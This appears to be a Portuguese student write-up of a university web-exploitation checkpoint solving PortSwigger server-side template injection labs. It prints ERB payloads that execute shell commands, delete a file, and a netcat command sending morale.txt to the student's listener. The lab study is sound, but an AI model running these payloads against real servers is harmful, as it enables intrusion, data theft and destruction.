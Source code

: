 # FIAP - 3° Checkpoint - Server-Side Template Injection

## Introdução
Checkpoint realizado com o intuito de colocar em prática todos os conhecimentos sobre vulnerabilidades web na matéria de Web Exploit, ministrada pelo [Professor Rafael Trassi](https://www.linkedin.com/in/rafael-trassi/).

## Feito por

- Matheus Rosa

## Vulnerabilidade

A Server-Side Template Injection ocorre quando um invasor é capaz de usar a sintaxe nativa do modelo para injetar uma carga maliciosa em um modelo, que é então executado no lado do servidor.

Os mecanismos de modelo são projetados para gerar páginas da web combinando modelos fixos com dados voláteis. Ataques de injeção de modelo no servidor podem ocorrer quando a entrada do usuário é concatenada diretamente em um modelo, em vez de ser transmitida como dados. Isso permite que invasores injetem diretivas de modelo arbitrárias para manipular o mecanismo de modelo, muitas vezes permitindo que eles assumam o controle total do servidor. Como o nome sugere, as cargas úteis de injeção de modelo no lado do servidor são entregues e avaliadas no lado do servidor, tornando-as potencialmente muito mais perigosas do que uma injeção típica de modelo no lado do cliente.

## Print da Conta 
* Envie um print da área de detalhes da conta após ter logado
<img src="imagens/Imagem1.png">

# Exercício 0x01 - Lab

Link: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic  

## 01 - Uma captura de tela completa com a mensagem de erro produzida pela aplicação quando um item está esgotado no estoque.

<img src="imagens/Imagem2.png">

## 02 - Uma captura de tela completa como prova de que você consegue realizar operações simples ou multiplicar uma string (exemplo: 'FIAP' * 10). Exiba o seu payload na barra de endereços.

<img src="imagens/Imagem3.png">

## 03 - Envie um print mostrando qual o hash MD5 do arquivo morale.txt.

Comando Utilizado: 
```
<%= system('md5sum morale.txt') %>
```

<img src="imagens/Imagem4.png">

## 04 - Responda qual o tipo de arquivo é o morale.txt.

Comando Utilizado: 
```
<%= system('file morale.txt') %>
```
__R: morale.txt é um arquivo openssl enc'd data with salted password__

## 05 - Demonstre como você copiaria o arquivo morale.txt do servidor do lab. Também forneça prova de que este arquivo foi copiado na sua própria máquina demonstrando as saídas dos comandos file, ls e md5sum no seu próprio terminal.

__R: Para transferir o arquivo do servidor para a minha maquina local eu utilizaria o ncat. Basicamente abriria uma porta em modo listening no meu kali e na URL passaria o comando:__

Kali:
```
ncat -nvlp 1337
````
Este comando irá abrir e ficar escutando a porta 1337 da máquina local

Máquina Alvo:
```
ncat IP < morale.txt
````
O comando ira se conectar com o Kali e enviará o arquivo morale.txt após conexão.

### Prints

- md5sum
  <img src="imagens/Imagem4.png">
- file
  <img src="imagens/Imagem5.png">
- ls
  <img src="imagens/Imagem6.png">

## 06 - Forneça o payload utilizado para completar o primeiro laboratório e a evidência que você conseguiu completá-lo.

Comando Utilizado: 

```
<%= system(' rm morale.txt ') %>
```

<img src="imagens/Imagem7.png">

## 07 - Em qual linguagem o sistema de template está sendo executado?

__R: Ele foi escrito em RUBY__

<img src="imagens/Imagem8.png">

# Exercício 0x02 - Lab

Link: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context 
